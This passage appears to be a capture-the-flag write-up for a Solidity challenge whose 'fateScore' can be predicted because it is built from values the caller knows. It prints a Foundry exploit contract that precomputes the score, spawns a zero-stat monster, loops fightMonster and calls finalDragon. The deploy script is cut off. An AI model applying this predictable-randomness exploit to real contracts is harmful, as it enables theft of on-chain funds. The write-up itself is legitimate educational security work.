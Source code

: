 Now, the only factor we need to consider when calling `DungeonsNDragons:fightMonster` is the fateScore. The fateScore is calculated based on parameters known to both the contract and `msg.sender`. Therefore, `msg.sender` can calculate the fateScore in advance. If the fateScore is greater than 30, then the function can be called successfully.

The below is the exploit script.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";

interface IDungeons{
    function createCharacter(string memory _name, uint256 _class) external payable ;
    function finalDragon() external;
    function distributeRewards(bytes32 messageHash, uint8 v, bytes32 r, bytes32 s) external ;
    function salt()external view returns (string memory);
    function createMonster(string memory _name, uint256 _health, uint256 _attack) external ;
     function fightMonster(uint256 _monsterIndex) external;
}

interface ISetup{
    function challengeInstance()external view returns(IDungeons);
    function isSolved() external view returns (bool);
}

contract ExploiotChallenge {

    ISetup setup;
    IDungeons dungeons;
    uint256 fateScore1 ;
    uint256 fateScore2;
    constructor(address _setup){
        setup=ISetup(_setup);
        dungeons=setup.challengeInstance();
        
        
    }

    function Exploit()public payable{
        fateScore2=uint256(keccak256(abi.encodePacked(msg.sender, dungeons.salt(), uint256(999)))) % 100;
        fateScore1 = uint256(keccak256(abi.encodePacked(msg.sender, dungeons.salt(), uint256(42)))) % 100;
        dungeons.createCharacter{value:msg.value}("h4ck3r",1);
        dungeons.createMonster("m0nst3r", 0, 0);
        for(uint8 i=0;i<20;i++){
            dungeons.fightMonster(0);
        }
        dungeons.finalDragon();
    }

    receive()external payable{}
}



contract CreateExploit is Script{
    ExploiotChallenge exploit;

    function run()public{
        address setup=address(/* YOUR_SETUP_ADDRESS */);
        vm.startBroadcast();
        exploit=new ExploiotChallenge(setup);
```